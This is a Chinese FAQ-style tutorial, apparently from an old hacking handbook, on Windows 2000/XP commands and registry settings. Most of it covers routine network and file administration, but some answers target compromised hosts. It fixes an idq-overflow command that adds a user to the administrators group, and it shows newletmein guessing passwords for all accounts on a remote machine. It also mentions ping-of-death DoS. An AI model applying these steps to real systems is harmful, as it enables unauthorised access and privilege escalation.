地址，我们在同一个局域网内，我可以获得他的主机名吗？

**注意**：这个方法只能在局域网的同一网段内使用。使用 ping 命令，格式为：`ping -a ip_address`（如图6-25）。



## 经验&技巧：ping 命令的一些高级用法

根据一些常见的情况，简单总结一下 ping 的几个高级用法，其实主要就是如何应用一些 ping 的参数。

- 1. `-n` 参数

默认情况下，我们可以看到，ping 某个主机都是发送四个数据包的（图6-26）。然而，为了能更快速地确定对方是否在线或是确定与对方之间隔有几个路由器（也有可能有一些特殊原因），我们可能用不着发送那么多数据包来检验对方是否在线，这时候就用到了 ping 命令，格式为：`ping ip_address(or machine_name) -n x`。在这里，x 就是指要发送数据包的个数。例如，我在 ping 某台主机的时候，使用 `-n 1` 这个参数，也就是只送出了一个数据包（图6-27）。





“死亡之 ping”？这是一种最简单的 DoS 攻击了，其实该攻击就是利用 ping 命令来不停地发送大量的数据包。

- 2. `-l` 参数

用法：`ping ip_address (or machine_name) -l len`，在这里 `len` 就是指要发送的数据包的长度了。例如，我使用长度为 65500 bytes 的数据包来 ping 一台主机（图6-28）。


- 3. `-w` 参数

这个参数是用来设置延时的。如果你的线路不好，会经常造成 ping 超时，而实际上又不是无法连通。这样你 ping 某台主机的时候会看到 `time out`，这样就会造成一种无法连通的假象了。这时候不如试一下 `-w` 参数，这里我使用 `-w` 参数设置延时为 3 秒，命令是：`ping ip_address -w 3`（图6-29）。


- 4. `-t` 参数

刚刚谈到了“死亡之 ping”，里面说到了我们要怎样不停地发送大数据包来呢？这里就使用了 `-t` 参数。加上 `-t` 参数以后，直到你按 `ctrl+c` 之前，ping 命令都会不停地发送数据包给对方来检测线路状况（图6-30）。


- 5. `-f` 参数

数据在网络中传输的时候，也许会因为数据本身长度过长而在传输过程中要求分段。然而，如果我们使用 `-f` 参数，就会在发送数据的时候标上禁止分段的标志位。如果一些网络对分段要求不严格的话，很有可能会因为某台主机长时间发送过大长度的数据而使网络资源被其一台主机长时间占用。不过还好，我处于的网络中对此检查很严格，所以出现了这种字样：`Packet needs to be fragmented but DF set.`（翻译为：数据包发送过程中要求分段，但是数据包中的禁止分段位 DF 被设置）（图6-31）。


以上便是几个常用的参数，还有几个更高级的（对我来说，之所以说它们高级是因为我很少用到它们）参数就不多介绍了。

## 如何使用命令来查看本机的 IP 地址、DNS 服务器？

`ipconfig` 命令就可以（在 win98 的部分中已介绍）。但是，在 win2k 下，却有另外一个具有 win2k 特色的命令。这里来介绍这个命令：`netsh`。它带有很多子命令。

在 cmd 命令行提示符下输入 `netsh`，进入到 `netsh>` 提示符，再输入 `int ip` 进入到 `interface ip>`，然后再次输入 `dump`，这时候屏幕上就会打印出当前连接的配置情况了（图6-32）。


## 我能远程列出主机的某个盘下的所有资源吗？

用 `dir` 命令就可以，但是需要远程主机的磁盘共享，而且在此之前还要建立一个 `ipc$` 连接，另外还要保证建立 `ipc$` 连接时使用的用户对该共享磁盘有查看权限。

使用命令 `dir \\ip\c$`，在这里，使用这个命令来查看远程主机默认共享的 C 盘的资源（图6-34）。


## 我 telnet 到我的肉鸡上后，看到一些文件，想用 del 命令删除，却出现拒绝访问，怎么回事？

如果对方的这个文件是只读属性的话（关于如何使用命令查看文件属性请参见 win98 的命令部分），就会出现拒绝访问的情况。这里，我们可以使用 `del` 加上 `/f` 这个参数来强制删除。

例如，我建立一个只读文件 hack.txt，直接删除无法进行，再加上 `/f` 参数即可（图6-33）。


## 我可以 telnet 连接到对方的主机上，我想获得一些系统信息，用什么命令才好？

那就推荐给你使用 `set` 命令吧，通过这个命令获得的系统信息多得可怕。

使用方法也很简单，直接在 cmd 命令行提示符下键入 `set` 就可以了。如果是 telnet 到对方的主机的话，直接打 `set` 回车就可以了。然后就会得到 N 多信息（图6-35）。


仔细查看，我们可以获得主机名：

`COMPUTERNAME=X-HUNTER`

系统类型也可以获得：

`OS=Windows_NT`

居然还能获得一些系统的环境变量：

`Path=C:\perl\bin\`（这个是 perl 的解释器的位置）

系统盘符也可以得到：

`SystemDrive=C:`

另外，当前登录所使用的用户也可以获得：

`USERNAME=python`

在这里，只是举几个例子，具体的，希望大家在使用的时候多加注意，很多信息都是非常有用的哦。

## 我使用 net 命令的时候经常遇到一些错误代码，怎么查询对应的错误信息啊？

```bash
net helpmsg error_code

# 例如
net helpmsg 67
```

使用这样的命令来查询。例如，我要查看错误代码为 67 的错误信息，就使用 `net helpmsg 67`，这时候就会返回信息为“找不到网络名”（图6-36）。


## 我利用 idq 的溢出时捆绑命令 `net group administrators user_name /add`，但是系统回复该项功能只能在 win2000 域服务器的控制台下使用，怎么回事啊？

呵呵，比较少见的问题哦。之所以说少见，是因为大家好像很少写错这个命令，可是没想到，这位朋友就写错了。

仔细观察这条命令，看到了没？应该是 `localgroup` 而不是 `group`。

也许大家会有疑问，这么点区别就能导致错误吗？当然可以，我也在我的机器上运行一下这个命令，然后再查看一下错误代码对应的信息，大家也许就能知道了（图6-37）。从图中可以看到，在我的机器上也运行失败了，并且根据错误信息的帮助得知“此命令只能用在 Windows 2000 域控制器”，为什么呢？


如果对 win2k 的域有一定了解的朋友应该很快就能看出其中的奥妙了，这里是使用 `group`（组）来指定 administrators 这个组。

而正确的命令呢，则是用 `localgroup`（本地组）来指定 administrators 组，就这么点区别。

很容易就可以发现，错误的命令指定的不是本地组。既然不是本地组，那么当然是域中的组了；然而，实际上并不存在域，所以这个命令当然不能执行成功了。

因此，大家用命令的时候要小心哦……

## 我 telnet 到远程主机后，想改变他的 IP，命令行下怎么做？

这里有一个命令可以使用，不过要注意，这个命令只能在 win2k 或是 win2k 以上的更高版本的机器上使用。命令为：`netsh -c interface dump`，它的作用就是将主机的网络配置 dump 下来，并打印在屏幕上（图6-38）。


图6-38

不过这个命令只是显示配置而已，并不能更改。所以，我们还要做一些手脚，把命令改为：`netsh -c interface dump > c:\ip.txt`，也就是将 dump 下来的配置状况保存到 C 盘根目录下的 ip.txt 文件中（图6-39）。这样，我们就可以到 C 盘下使用 `edit` 命令来编辑 ip.txt 这个文本（注意，千万不要修改其格式，要在保持其格式不变的情况下做修改），编辑完成后就保存退出。


图6-39

这时候，我们再使用一个命令将其导入就可以了，导入的命令为：`netsh -f c:\ip.txt`。导入完成后，没有提示；所以，我们可以用 `ipconfig` 或是 `ipconfig /all` 来查看现在的配置，以确定是否改变，如果不成功的话，再做一次。

## 跟踪路由器的命令是什么？它的作用是什么？

命令为 `tracert`，格式为：`tracert ip`。例如，使用命令：`tracert www.sohu.com`（图6-40），这样，我就可以看到从我的主机到 sohu 的服务器之间经过了几个路由器，并且，如果这些路由器没有受到防火墙的保护的话，我还可以看到该路由器的 IP 地址。


图6-40

另外，`pathping` 命令也可以达到同样的效果。例如我 `pathping www.sohu.com`，这样，将可以看到和 `tracert` 类似的效果。但是，`pathping` 还有很多和 `tracert` 不一样而且很有用的地方，值得探索哦，大家努力探索发掘一番吧……

## 听说 win2k/xp 对一些常用的 DOS 命令做了些加强，能介绍一下吗？

可以，不过，我个人认为，有些加强是没什么必要的。例如，我们将要介绍的第一个参数：`dir` 命令中新增加了一个参数 `/-C`，使用方法和原来一样，只要加上 `/-C` 就可以了。

它的作用：去掉了显示文件大小的数字中的逗号分隔符。

例如，我在 D 盘下使用命令：`dir` 和 `dir /-c`，很容易就可以看到区别（图6-41）。从图中可以看出，唯一的不同就是文件大小的数字部分，使用 `/-c` 参数的命令没有了分隔符。

最后，`dir` 命令还有三个相似的参数，分别为：`/T:C`、`/T:A`、`/T:W`。

这三个参数的作用分别是显示文件、目录的创建时间、上次访问时间和上次修改时间。例如使用 `/T:C` 参数和普通的 `dir` 命令进行比较，将发现时间处明显不同（图6-43）。


图6-41


图6-43

`dir` 的另外一个新增参数为 `/q`，这个倒是有一些用处的。使用命令 `dir /q` 列文件、目录时，将显示出文件、目录的用户属性（图6-42）。

从图中我们就可以看出与普通 `dir` 命令之间的差别了。

`cd` 命令的新参数 `/D`。以实例讲解：在我的本地机上，现在我的 cmd 命令提示符工作在 D 盘下。那么，如果我要切换到 E 盘下的一个名为 python 的文件夹的话，以传统的方式，我要这样进行：

```text
第一步：D:\> cd e:\python
第二步：D:\> e:
```

这样才可以进入 E 盘的 python 文件夹。可是，现在有了 `/D` 参数的话，只要一步就可以了（图6-44）。

从图中可以看出，直接使用一步 `cd /d e:\python` 就可以了，而且和传统方式比较，其方法要简单而且明了。


图6-42


图6-44

`md` 命令，`md` 命令在 win2k/xp 中倒没有什么新参数，但是却增强了功能。就是一次性可以建立多层文件夹，例如我可以直接使用命令 `md a\b\c\d` 来建立四层文件夹（图6-45）。


图6-45

`rd` 命令，新增加了参数 `/s`，作用是删除目录树。这样的话，删除的目录下的所有目录和文件就都删除了，和以前的 DOS 命令中的 `deltree` 作用相似。拿刚才建立的四层文件夹为例（`:\a\b\c\d`），我们直接使用命令：`rd /s a` 这样的命令就可以了（图6-46）。


图6-46

另外，`rd` 命令还新增了 `/q`，这个参数可以说是对 `/s` 参数的补充吧，因为在使用 `/s` 参数删除文件夹的时候是需要确认的，而 `/q` 参数则不需确认就可以直接删除（和 `del` 命令的 `/q` 参数很像哦，都属于“安静模式”，不需要确认）。（这样好的命令，用来做坏事不错哦）。

`del` 新增参数，第一是 `/F`，很强的参数，有了这个参数，可以删除只读文件（图6-47）。


图6-47

除了 `/F`，还有参数 `/A`，这个参数不错，但是用起来有点麻烦。参数的作用是删除指定属性或指定属性以外的文件，`/AR`、`/AH`、`/AS`、`/AA` 分别表示删除只读、隐藏、系统、存档文件，`/A-R`、`/A-H`、`/A-S`、`/A-A` 表示删除除只读、隐藏、系统、存档以外的文件。例如 `DEL /AR *.*` 表示删除当前目录下所有只读文件，`DEL /A-S *.*` 表示删除当前目录下除系统文件以外的所有文件。

`format` 命令，新增加了参数 `/FS:filesystem`（其中 filesystem 可以为 FAT、FAT32、NTFS 的其中一种），它的作用就是将磁盘格式化为某一种文件系统格式。

`date` 和 `time`，新加了一个同样的参数 `/T`。原来的 `date` 和 `time` 命令，在使用的时候会要求输入新的时间和日期，而现在，只要加上 `/T` 参数，就不会要求输入新时间和日期了，而是直接显示当前的时间或是日期（图6-48）。


图6-48

以上就是一些新增加的参数了，可能有不全的地方，还望见谅了。


## 能介绍一些 SMTP 和 POP3 常用的命令吗？

先列出一些 SMTP 命令，有些命令我也没有用过，值得大家一起探讨探讨：

- **HELO**：向服务器标识用户身份，发送者在这里可以欺骗服务器，不过一般情况下好像都骗不到的，服务器可以检测出来。
- **MAIL**：初始化邮件传输。
- **RCPT**：标识单个的邮件接收人；常在 MAIL 命令后面，可有多个 `rcpt to`。
- **DATA**：在单个或多个 RCPT 命令后，表示所有的邮件接收人已标识，并初始化数据传输，以 `.` 结束。
- **VRFY**：用于验证指定的用户/邮箱是否存在；由于安全方面的原因，服务器常禁止此命令。
- **EXPN**：验证给定的邮箱列表是否存在，扩充邮箱列表，也常被禁用。
- **HELP**：查询服务器支持什么命令。
- **NOOP**：无操作；服务器应响应 OK。
- **QUIT**：结束会话。
- **RSET**：重置会话，当前传输被取消。

几个常用的命令而已，还有很多高级的，呵呵，靠大家。而且，掌握这几个命令基本上就足够用了。

- **user username**：认可。
- **pass password**：认可，执行成功则状态转换。
- **apop name,digest**：认可，一种安全传输口令的方法，执行成功导致状态转换。
- **stat**：处理请求，server 回送邮箱统计资料，如邮件数、邮件总字节数。
- **uidl n**：处理，server 返回用于该指定邮件的唯一标识；如果没有指定，返回所有的。
- **list n**：处理，server 返回指定邮件的大小等。
- **retr n**：处理，server 返回邮件的全部文本。
- **dele n**：处理，server 标记删除，`quit` 命令执行时才真正删除。
- **rset**：处理，撤消所有的 `dele` 命令。
- **top n,m**：处理返回 n 号邮件的前 m 行内容，m 必须是自然数。
- **noop**：处理，server 返回一个肯定的响应。

`quit` client：

希望结束会话。如果 server 处于“处理”状态，则现在进入“更新”状态，删除那些标记成删除的邮件。如果 server 处于“认可”状态，则结束会话时 server 不进入“更新”状态。

## newletmein 这个命令是干什么的啊？

NO，NO，NO……你在命令行下键入 `newletmein` 会发现是无法使用的，因为它根本就不是一个命令，而是一个工具。`newletmein` 是 KILLUSA 编的 letmein 的新版本，用来进行简单地针对 NT/2000 的主机进行登录破解的小工具。

命令行下，转到 `newletmein` 所在目录，直接输入 `newletmein` 会出现帮助信息（图6-49）。


图6-49

最常见的，我们会使用这个命令：`newletmein \\ip -all`，这个命令就是对远程主机的所有账号，猜解时使用的密码是与用户名相同或是为空（图6-50）。


图6-50

## 用什么命令可以查看系统的版本号啊？

`ver` 命令就可以了，在 cmd 下键入这个命令后，会返回当前操作系统的版本信息（图6-51）。


图6-51

例如，在 win2k 中将得到的版本号为 `Version 5.00.2195`，如果是 Windows XP 的话，将得到“版本 5.1.2600”。

## 如何使用 finger 命令？

```bash
finger -l user@computer
```

命令格式为：`finger -l user@computer`（图6-52）。


图6-52

- `-l`：以长列表格式显示信息。
- `user`：指定要获得相关信息的用户。省略用户参数以显示指定计算机上所有用户的信息。
- `@computer`：指定目标计算机。

注意：`finger` 是依赖于 TCP/IP 的，所以必须安装 TCP/IP 协议栈后，才可以使用该命令。

## 有什么命令可以远程执行一些 cmd 命令？

`rexec` 这个命令可以，不过有些特别的要求，就是远程的主机必须运行着 REXEC 服务，而且，该命令基于 TCP/IP，必须保证安装了 TCP/IP 才可以使用。

```bash
rexec machine_name -l user_name -n command
```

```bash
rexec python -l python -n net start telnet
```


## netsh 这个命令是干什么的？怎么使用？

`Netsh` 是本地或远程计算机的 win2k 网络组件的命令行和脚本实用程序。它带有很多子命令，比较复杂，所以这里只对一些常用的命令进行讲解：

- 1. 查看本地的 IP 地址：首先键入 `netsh`，然后出现的提示符变为 `netsh>`，依次输入 `interface` -> `ip` -> `show address`，这样就会显示当前连接的 IP 地址和子网掩码（图6-54）。


个人认为，这个命令的这部分远不如 `ipconfig` 和 `ipconfig /all`。

- 2. 修改网络配置：接着上面的命令，我们使用这个命令：`set address name="本地连接" source=static addr=192.168.0.200 mask=255.255.255.0`。这样，就修改了当前的 IP 地址（原来的 IP 为 192.168.0.2），再用 `show address` 看一下，果然改过来了（图6-55）。


这个功能太强了，命令行下修改 IP 地址，呵呵，谁能做到？只有 `netsh` 了。

- 3. 显示一个完整的网络配置脚本：第一个命令查看的信息远不如 `ipconfig /all` 全面。`netsh` 在打印显示网络配置上也有自己的特色，例如在 `interface ip` 状态下执行 `dump`，显示一个清单，显示所有的本地连接（不管你是否使用）（图6-56）。


以上三个就是最基本最常见的命令了，其他命令的话，都是一些有专门用途的命令了，在需要的时候可以输入“？”来查看帮助。

## 用什么命令才可以限制用户的登录时间范围呢？

`net` 命令中就有这样的功能。具体用法如下：例如，我想要用户 aaa 在周日到周一的上午八点到下午四点之间可以登录的话，使用命令：

```bash
net user aaa /times:sunday-monday,08:00-16:00
```

图6-57

好，命令成功了。那么，我现在来用 `net user aaa` 命令查一下 aaa 的登录时间限制，从图中可以看到：星期日上午 08:00－下午 04:00；星期一上午 08:00－下午 04:00（图6-58）。

图6-58

> 大家要注意到：命令中使用的是 Sunday-Monday，所以要注意，星期日才是一周的开始，在这个命令中也是。我们平常习惯了把星期日作为一周的结束，这样很容易在使用这个命令的时候出错，所以要小心。

PS：学好英文哦，如果连周一到周日的英文都不会的话，可连这个命令都用不了。还有还有，忘了说了，如果想要恢复到原样的话，也就是不限时登录，那么只要使用命令：

```bash
net user aaa /time:all
```

就可以了（这个命令可以举一反三的哦）。

### 请问，怎么样才能找到路由器？

`tracert` 命令。随便 `tracert` 一个存在的 IP 地址，下面就会列出到达这个 IP 地址所要经过的所有路由器（其中也包括第三层交换机），这样就可以找到路由器了（图6-59）。

图6-59

### 怎么样启动微软自带的 FTP 服务？

命令 `net start msftpsvc` 就可以了。但是，如果是使用命令 `net start`（图6-60）。

图6-60

> 在启动 FTP Publishing Service 这种中间带有空格的服务的时候，按照一般情况下那样使用命令是启动或是停止不了服务的。但是，只要给这些中间带有空格的服务加上引号（""），就可以用 `net start/stop` 启动或是停止这些服务了。

### 对方的 FTP 修改了端口，我在 cmd 下用 ftp ip 无法连接，这是为什么？

当对方的端口修改后，直接使用 `ftp ip` 这样的命令就不可以了。例如，对方修改端口为 5277，那么我们就要用两步来完成：先是 `ftp`，然后当提示符变为 `ftp>` 后，输入：

```bash
open ip 5277
```

这时候，会要求输入用户名和密码，按要求输入即可登录（图6-61）。

图6-61

另外，除了 FTP 的端口修改后要这样做以外，如果对方的 telnet 服务端口修改了的话，也要 `telnet ip port` 这样才可以登录。

### 我是 telnet 登录到主机上的，应该用什么命令来获得主机名？

两个命令：`hostname` 和 `ipconfig /all`，都可以；`hostname` 更加直观一些。注意，这里的 `ipconfig` 一定要带有 `/all` 参数，否则的话是看不到主机名的（图6-62）。

图6-62

### 有什么命令可以重新启动计算机吗？

如果是 Windows XP 的话，带有 `shutdown` 命令；但是 Win2k 的话，则没有命令可以关机或是重启了。但是，如果安装了 IIS 服务的话，就不一样了，我们可以利用 IIS 来达到重新启动计算机的目的，命令为：`iisreset /reboot`（图6-63）。

图6-63

### 最后附录部分

### FTP 服务器的常见返回代码

大家都在命令行下使用过 FTP 来进行下载和上传文件吧，细心点会发现，在 FTP 服务器返回一些操作成功或失败的信息的同时，还会有一个返回代码。代码是否感兴趣，在此列出各个代码的含义，以便参考：

| 代码 | 含义 |
|---|---|
| 119 | 不可用，将尝试使用邮件。在域中常见到的情况。 |
| 120 | 服务在 X 分钟后可用。 |
| 125 | 数据连接已打开，传输开始。在上传或是下载的时候会有显示。 |
| 150 | 文件状态正常，即将打开数据连接。 |
| 151 | 用户不是本地用户。 |
| 152 | 未知的用户。 |
| 200 | 命令正常、合法。 |
| 211 | 系统状态或是系统帮助应答。 |
| 212 | 处于目录状态。 |
| 213 | 处于文件状态。 |
| 214 | 帮助信息。 |
| 220 | 服务对新用户为可用状态。 |
| 221 | 服务正在关闭当前的 FTP 连接。 |
| 225 | 数据连接已打开，但是没有传输正在进行中。 |
| 226 | 正在关闭数据连接；请求的文件操作成功。 |
| 227 | 进入被动模式。 |
| 230 | 用户已经正确登录。 |
| 331 | 用户名正确，但是需要密码。 |
| 332 | 需要登录帐号。 |
| 350 | 请求的文件操作需要附加信息。 |
| 421 | 服务不可用，关闭 FTP 连接。可能由于服务限制或未正常启动服务造成。 |
| 425 | 无法打开数据连接。可能是由于端口限制而导致数据传输端口不能打开。 |
| 426 | 连接已关闭，传输异常中断。可能是由于线路超时而造成的。 |
| 450 | 请求的文件未执行；文件不可用。 |
| 530 | 登录失败。主要是由于密码错误。 |
| 532 | 存储文件所需帐号。 |
| 550 | 请求的操作不能执行。 |

**注意：** 也许大家认为这些代码没有什么用处，但是，如果经常查看 FTP 服务日志的朋友就应该知道它的用处了，因为 FTP 日志没有用文字来描述各种事件，而是直接使用这些代码来表示的（图6-64）。

图6-64

## 第7章 Win2k 注册表部分

### Win2k 下的注册表和 Win98 的有什么不一样吗？

Win2k 的注册表主要变化有以下两点：

- 1. Win2k 下，除了 `regedit` 以外，还多了一个 `regedt32` 程序。它和 regedit 注册表编辑器类似，唯一不同之处在于使用 regedt32 可以对每个键进行权限设置。设置方法也很简单，只要选择要进行权限设置的键，然后点“安全->权限”（图7-1）。
- 2. 写过注册表脚本的人都应该知道，在 Win98 中注册表脚本是使用 `REGEDIT4` 来开头的，而在 Win2k 中则不同，我们可以通过导出注册表的一个值来查看该脚本的编写状况（图7-3）。

从图中可以看出，脚本开头处为 “Windows Registry Editor Version 5.00”，可见在 Win2k 中使用的是第五版的注册表编辑器。不过，在编写 Win2k 脚本的时候，如果写为 `REGEDIT4` 也是可以的。除了这些，在一些键值的叫法上多少有所不同，不过这些都不是很重要，所以就不过多详细阐述了，大家可以拿 Win98 和 Win2k 的注册表进行一下对比，很快就会发现的。

这是对键 `HKEY_LOCAL_MACHINE` 进行权限设置。在弹出的对话框中，我们可以对不同用户进行权限设置（图7-2）。

### 在 Windows 2000 下怎样查看随机启动自动加载的程序？

在 Win98 下，我们可以通过使用 `msconfig` 来查看随机启动的程序（如何使用 msconfig 请查看 Win98 部分）。但是在 Win2k 中却没有这个程序。虽然说我们可以通过一些手段把 msconfig 移植到 Win2k 中，但是毕竟不是 Win2k 自带的工具，使用起来不如 Win98 中那么方便，所以我们通过查看注册表的方法来查看随机启动程序，查看方法也比较方便。

只要我们找到以下几个位置，查看右边的值，根据值就可以判断随机启动的程序。这种做法相对 Win98 中的 msconfig 来说更加有效。

- 1. `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
- 2. `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce`
- 3. `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`
- 4. `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce`
- 5. `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnceEx`

以上五个位置中，最为常见的加载程序位置就是位置三。来到位置三，查看右边窗口中的值，可以清楚地看出值的名称以及值所对应的路径（图7-4），这样就可以非常容易地查看并找出一些随机启动的后门程序。

### 如何利用注册表修改 TTL 值？

到这个位置：`HKLM\System\CurrentControlSet\Services\Tcpip\Parameters` 下，右边找到键 `DefaultTTL`（如果没有的话则需要自己建立，该键的类型为“双字节值”），设置这个键的值为你想要的 TTL 值。例如：修改为 255，伪装成为一台 UNIX（UNIX 的默认 TTL=255）。但是要注意，修改值的时候记得选择修改的是十进制值；如果是十六进制的话，就不是 255 了，而是要写 `ff`（图7-5）。

### 安装完 IE 6.0 后我想重装 IE 5.5，但是却不允许，报错是现在所安装的版本比要安装的版本新，怎么办？

通过修改注册表便可实现安装低版本。因为安装程序在安装的时候会先检查注册表，以确定在本机上已安装的版本；如果现有版本比要安装的版本低的话则允许安装，反之则不允许。

进入注册表编辑器，到这个位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer`，在右边窗口找到 `Version`（图7-6），这个值的数据就是 IE 的版本号，在这里修改就可以了。如果想要安装 IE5.5，那就改得低一些，比如改为 4.0，都可以。

大家查看 `Version` 的时候会发现，`Version` 的值为 `6.0,2600.0000`。如果想把它改得低一点的话，怎么改？应该是多少？大家打开你的 IE6.0，然后到“帮助”里查看一下“关于 Internet Explorer”，会看到正确的版本号（图7-7）。怎么样，和 `Version` 的数据是相同的吧。

既然这样，怎样修改就清楚了吧。只要通过同样方法获取 IE 其他版本的版本号就可以了。

### Win2k 的“文件夹选项->查看”里没有“显示所有文件和文件夹”了，怎么搞的？

这是修改注册表实现的。修改位置如下：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden`

在 `Hidden` 下，大家可以看到除了 `SHOWALL` 以外还有一个键值为 `NOHIDDEN`，这一项实际上对应的是“不显示所有隐藏文件和文件夹”项（图7-9）。

在 `Hidden` 下删除 `SHOWALL` 键值即可。这时候再来到“文件夹选项”的“查看”选项卡中，会发现“显示所有隐藏文件”这一项已经不见了（图7-8）。

我为什么要这样说呢？细心的朋友应该可以发现，在注册表中，这个结构和“文件夹选项”中的“查看”卡中的项是对应的。所以说，在注册表中，很多类似的键值都是和系统中一些特殊选项有对应关系的。

我说这些只是为了给大家提供一点学习注册表的相关信息。如果大家以后再修改注册表的时候能注意到这些的话，对于一些特殊键值的修改很快就可以掌握，甚至可以非常容易地举一反三。

### 我的 IE 被修改了，IE 标题栏中被写上了网站地址，怎么办？

## Win2k 部分

很多网站很讨厌，会修改注册表导致 IE 变样。在这里，写出几个常见的情况及其修改办法：

### 修改 IE 的标题栏

即在 IE 浏览器最上方的蓝色横条里做广告（默认的为 Microsoft Internet Explorer）。这个比较常见，到这里改：

`HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer\Main`  
`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main`

在注册表中找到以上两处主键，将其下的 `Window Title` 修改为 `Microsoft Internet Explorer`，或者是自己想要的个性字样，并关闭所有打开的 IE 浏览器窗口，重新打开就能看到效果。

### 修改 IE 的首页

